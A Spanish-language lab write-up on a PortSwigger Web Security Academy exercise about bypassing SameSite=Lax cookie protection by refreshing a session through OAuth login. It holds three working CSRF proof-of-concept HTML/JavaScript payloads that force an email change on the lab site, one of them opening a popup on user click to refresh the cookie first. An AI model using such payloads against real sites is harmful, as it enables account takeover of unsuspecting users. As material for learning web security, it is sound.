 ```yaml
---
layout: default
title: 10 - SameSite Lax bypass via cookie refresh
---
```

La cookie no tiene nada, asi que es Lax, no podemos convertir la petición de cambio de correo a GET de ninguna forma.

---

### 🤔 ¿Por qué entonces se envía en esta solicitud POST cross-site?

Esto se debe a una **excepción temporal** en navegadores antiguos o mal configurados, **cuando la cookie no tiene explícitamente el atributo `SameSite`**. Si el servidor omite `SameSite`, el navegador **aplica Lax por defecto** desde 2020 aproximadamente (por razones de seguridad).

Sin embargo, **durante los primeros minutos después de un login OAuth**, el navegador aún puede considerar la sesión "iniciada recientemente" y puede permitir una solicitud POST cross-site con cookies si:

1. La cookie **no tiene un atributo SameSite explícito**.
    
2. La sesión aún está activa y reciente.
    
3. El navegador no está implementando SameSite de forma estricta o tiene una excepción (esto varía entre navegadores y versiones).
    

---

### 🧪 Por qué funciona el ataque CSRF aquí

En el laboratorio:

- **No hay token CSRF** en la solicitud POST para cambiar el correo.
    
- La cookie de sesión **no tiene `SameSite` explícito**, por lo que se usa `Lax` por defecto.
    
- Al haber iniciado sesión recientemente, el navegador **todavía incluye la cookie en el POST**, incluso siendo una solicitud cross-site.
    

___

Esto funciona si han pasado menos de dos minutos desde que te has logueado:

```html
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

Esto no funciona porque las ventanas emergentes son bloqueadas por defecto:
```HTML
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Aquí se envía una ventana emergente solo cuando el usuario clica, por lo que no es bloqueada
```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
